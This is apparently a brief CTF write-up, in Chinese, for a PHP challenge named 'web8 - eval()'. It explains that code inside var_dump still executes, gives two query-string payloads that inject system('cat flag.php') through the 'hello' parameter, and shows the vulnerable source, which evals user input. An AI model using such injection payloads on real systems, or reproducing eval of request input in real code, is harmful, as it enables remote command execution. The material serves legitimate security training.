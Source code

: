 # web8 - eval()

即使被var_dump包住了，也会先执行它里面的php语句。

payload:
`?hello=system('cat flag.php')`
或
`?hello=eval("system('cat flag.php');")`


题目源码：
```php
 <?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?> 
```